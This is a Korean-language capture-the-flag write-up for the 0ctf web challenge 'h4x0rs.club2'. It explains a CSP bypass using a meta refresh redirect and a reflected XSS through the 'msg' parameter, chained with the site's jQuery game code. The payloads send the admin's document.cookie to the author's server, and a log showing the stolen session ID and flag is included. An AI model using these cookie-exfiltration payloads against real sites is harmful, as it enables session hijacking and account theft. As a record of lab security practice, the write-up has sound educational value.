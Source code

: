 # [Web] 0ctf - h4x0rs.club2

## Description

Get document .cookie of the administartor.

h4x0rs.club

backend_www got backup at /var/www/html.tar.gz

Hint: Get open-redirect first, lead admin to the w0rld!



## Analysis & Exploit

로그인 후 Profile을 작성할 수 있는데, Response Header를 보면 다음과 같다.

```
Content-Security-Policy: default-src 'none'; img-src * data: ; script-src 'nonce-e3481660056cc8a9d7e9adbd42c0d470'; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src 'self' fonts.gstatic.com; frame-src https://www.google.com/recaptcha/;
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block;
```

CSP가 걸려있으며, script의 경우 nonce가 적용되어 있으나 cache를 사용하지 않아(`Pragma: no-cache`) 사용이 불가능하다.

CSP를 우회하여 Redirect할 수 있는데, 스크립트는 다음과 같다.

```html
<meta http-equiv="refresh" content="0;url=[MY SERVER]">
```

이를 이용해 내 사이트로 Redirect가 가능하다.

그래서 ajax를 이용해 긁어오게 하려고 하였으나 Access-Control-Allow-Origin에 의해 실패하였으며, 코드는 아래와 같다.

```html
<script src="jquery.js"></script>
<script>
	$.ajax({
		url: "https://h4x0rs.club/",
		type: "POST",
		xhrFields: {
			withCredentials: true,
		},
		beforeSend: function(xhr) {
		},
		success: function(data,status, xhr){
			location.href="//[MY SERVER]/?"+xhr.getResponseHeader("Cookie");
		},
	});
</script>
```

다른 방법을 찾던 중 Reflected XSS를 발견하였다.

vector는 msg로써 형식은 다음과 같다.

```
https://h4x0rs.club/?msg=THIS
```

모든 페이지에서 msg를 사용하면 페이지의 소스안에 들어가는 것을 확인하였다.

이를 이용하여 스크립트를 삽입하면 되지만, Reflected xss의 경우 브라우저의 XSS 필터링을 거치기 때문에 이를 우회하거나 다른 방식으로 XSS를 일으켜야 한다.

해당 페이지는 jquery로 구축되어 있으며 구현된 소스를 기반으로 Reflected XSS를 만들 수 있었다.

```javascript
# app.js
function b() {
        x(), $(".js-user").append($("#audiences").html()), $(".challenge-out-of-time").show()
        CLIENT_GAME.answer( function (correct) {
            console.log("answer",correct);
            correct ?
            ($(".out-of-time-response").hide(), $("#response-happy").show(), $.get('/game/login.php?action=upgrade&level='+(LEVEL+1)) , setTimeout(()=>{alert('Congratz!');location.reload()},2000))
            : ($(".out-of-time-response").hide(), $("#response-sad").show(), setTimeout(()=>{alert('Sad :(');location.reload()},2000));
        }, $('#answer').val().trim().replace(/\b\w/g, l => l.toUpperCase()) );
    }
function T() {
        function e(e) {
            var t = Date.parse(e) - Date.parse(new Date),
                n = Math.floor(t / 1e3 % 60);
            return {
                total: t,
                minutes: Math.floor(t / 1e3 / 60 % 60),
                seconds: n
            }
        }
        y(), q === P.PAUSED && p(), q = P.ACTIVE, g();
        var t = $("#timer .minutes").text(),
            n = $("#timer .seconds").text(),
            i = new Date(Date.parse(new Date) + 1 * t * 60 * 1e3 + 1 * n * 1e3);
        t >= 60 && i.setSeconds(i.getSeconds() - 1),
            function(t, n) {
                function i() {
                    var t = e(n);

                    s.innerHTML = ("0" + t.minutes).slice(-2), a.innerHTML = ("0" + t.seconds).slice(-2), t.total <= 0 && (window.clearInterval(u), b())
                }
                r(), $(".workoutman--animated").show(), $(".workoutman--still").hide();
                var o = document.getElementById(t),
                    s = o.querySelector(".minutes"),
                    a = o.querySelector(".seconds");
                i();
                var u = setInterval(i, 1e3);

                O.push(u)
            }("timer", i)
    }
function o() {
        q === P.PAUSED ? T() : l(function() {
            T()
        }), h(), p()
    }
$(document).ready(function() {
        $("#easy").addClass("selected"), $('a[href="#"]').click(function(e) {
            e.preventDefault()
        }), $(".js-difficulty").click(function() {
            $(".js-difficulty").removeClass("selected"), $(this).addClass("selected"), L = $(this).data("difficulty"), u(L)
        }), $(".js-pause-button").click(function() {
            c(), q === P.PAUSED ? o() : (q = P.PAUSED, c())
        }), $(".js-stop-button").click(function() {
            f(), q = P.STOPPED
        }), $(".js-info-button").click(function() {
            w(), $(".js-info-button").hasClass("selected") && y()
        }), $(".selectable").click(function() {
            $(this).toggleClass("selected")
        }), $(".timer__button").click(function() {
            var e = void 0;
            e = "decrease" == $(this).data("stepper-direction") ? -5 : 5;
            var t = $(".timer .minutes"),
                n = parseInt(t.text(), 10),
                r = n + e;
            r <= 5 || r >= 60 ? $(this).attr("disabled", !0).addClass("button--disabled") : $(".timer__button").attr("disabled", !1).removeClass("button--disabled");
            var i = void 0;
            i = r >= 5 && r <= 60 ? r.toString() : n.toString(), i < 10 && (i = "0" + i), t.text(i)
        }), $(".js-start-button").click(function() {
            o()
        }), $("#reload-button").click(function() {
            u(localStorage.getItem("difficulty"))
        })
    })
```

페이지 로드 시 불러오는 javascript 중 app.js내의 b 함수를 class가 js-user인 값에 id가 audiences인 값의 내용을 넣는다.

트리거를 위해선 js-start-button을 클릭하면 o() -> T() -> b()가 순서대로 실행되어 스크립트를 실행할 수 있으며 쿼리는 다음과 같다.

```html
<script class="js-user"></script><div id="audiences">alert(1);</div>
```

이를 삽입하여 js-start-button을 누르면 게임 시작 후 10초 뒤에 alert(1);이 실행된다.

하지만 이는 버튼을 눌러야만 발동을 하므로 자동으로 실행되게끔 해야한다.

페이지 로드시 불러오는 client.js를 이용해 트리거시킬 수 있었다.

```javascript
# client.js
$( document ).ready(function() {
    CLIENT_GAME.init();
    $('#play-stop-btn').hide();
    var p = setInterval(function(){
        if(CLIENT_GAME.ready == true) (clearInterval(p), $('#play-stop-btn').show());
    },500)
;    setTimeout(function(){$('.js-difficulty').children().click();},1000);
});
```

client.js가 로드되면 js-difficulty의 하위를 클릭하는데 이를 이용해 리플렉이 자동으로 실행되도록 만들었다.

페이로드는 다음과 같다.

```html
<div class="button button--small button--blue js-difficulty d-flex justify-content-center align-items-center button js-start-button grow button--green d-flex justify-content-center align-items-center"><i class="icon ion-play"></i></div><script class="js-user"></script><div id="audiences">alert(1);</div>
```

이를 이용하면 페이지 로드 시 자동으로 게임이 실행되지만, 10초 후에 스크립트가 실행되기 때문에 봇이 따라가지 못하는 것 같다.

```javascript
# app.js
function T() {
        function e(e) {
            var t = Date.parse(e) - Date.parse(new Date),
                n = Math.floor(t / 1e3 % 60);
            return {
                total: t,
                minutes: Math.floor(t / 1e3 / 60 % 60),
                seconds: n
            }
        }
        y(), q === P.PAUSED && p(), q = P.ACTIVE, g();
        var t = $("#timer .minutes").text(),
            n = $("#timer .seconds").text(),
            i = new Date(Date.parse(new Date) + 1 * t * 60 * 1e3 + 1 * n * 1e3);
        t >= 60 && i.setSeconds(i.getSeconds() - 1),
            function(t, n) {
                function i() {
                    var t = e(n);

                    s.innerHTML = ("0" + t.minutes).slice(-2), a.innerHTML = ("0" + t.seconds).slice(-2), t.total <= 0 && (window.clearInterval(u), b())
                }
                r(), $(".workoutman--animated").show(), $(".workoutman--still").hide();
                var o = document.getElementById(t),
                    s = o.querySelector(".minutes"),
                    a = o.querySelector(".seconds");
                i();
                var u = setInterval(i, 1e3);

                O.push(u)
            }("timer", i)
    }
```

그래서 10초가 아닌 즉시 스크립트가 실행되도록 변경하는 스크립트를 추가하였으며, 최종적으로 만들어진 쿼리는 다음과 같다.

```javascript
<div class="timer d-flex p mb-3 flex-md-row grow align-items-stretch" id="timer"><div class="timer__display screen d-flex justify-content-center"><div class="align-self-center font-weight-fat"><span class="minutes">00</span> <span class="colon"></span> <span class="seconds">10e-3</span></div></div></div><div class="button button--small button--blue js-difficulty d-flex justify-content-center align-items-center button js-start-button grow button--green d-flex justify-content-center align-items-center"><i class="icon ion-play"></i></div><script class="js-user"></script><div id="audiences">location.href="http://[MY SERVER]/"+document.cookie;</div>
```

이를 이용하여 admin의 쿠키를 탈취할 수 있었고, 플래그를 얻을 수 있었다.

```
203.205.141.123 - - [04/Apr/2018 05:27:13] code 404, message File not found
203.205.141.123 - - [04/Apr/2018 05:27:13] "GET /PHPSESSID=0v33rcqo1qfrei9qpc080nm851;%20flag=flag%7Bpostman_1n_the_middl3%7D HTTP/1.1" 404 -
```



**flag{postman_1n_the_middl3}**

